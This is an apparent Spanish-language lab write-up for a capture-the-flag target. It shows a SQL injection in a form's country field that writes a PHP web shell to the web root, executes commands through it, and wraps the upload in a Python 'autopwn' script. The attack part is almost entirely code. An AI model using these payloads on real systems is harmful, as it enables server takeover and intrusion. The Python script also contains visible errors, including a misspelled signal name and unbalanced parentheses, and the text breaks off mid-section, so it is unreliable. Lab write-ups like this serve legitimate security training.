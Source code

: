 ```bash
username=admin&country=Brazil' union select "probando" into outfile /var/www/html/prueba.txt-- -
```

Si vamos con firefox a la url 
```bash
 http://10.10.11.116/prueba.txt 
```
 podemos ver prueba. Intentamos subir un fichero php

```bash
username=admin&country=Brazil' union select "<?php system($_REQUEST['cmd']);?>" into outfile /var/www/html/s4vishell.php-- -
```

Si vamos a la url 
```bash
 http://10.10.11.116/s4vishell.php?cmd=whoami 
```
 vemos que podemos ejecutar comandos.

### Creamos un autopwn en python {-}

```python
#!/usr/bin/python

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

#Ctrl+C
signal.signal(signal.SINGINT, def_handler)

if len(sys.argv != 3:
    log.failure("Uso: %s <ip-address> filename" % sys.argv[0]
    sys.exit(1)

#Variables globales
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url = "http://%s/" % ip_address

def createFile():

    data_post = {
        'username': 'caa',
        'country': """Brazil' union select "<?php system($_REQUEST['cmd']);?>" into outfile /var/www/html/%s-- -""" % (filename)
    }

    r = requests.post(main_url, data=data_post)

if __name__ == '__main__':
    createFile()

```## Vuln exploit & Gaining Access {-}

### Ganando acceso con el autopwn {-}

```python
#!/usr/bin/python

from pwn import *
import signal, pdb, requests
```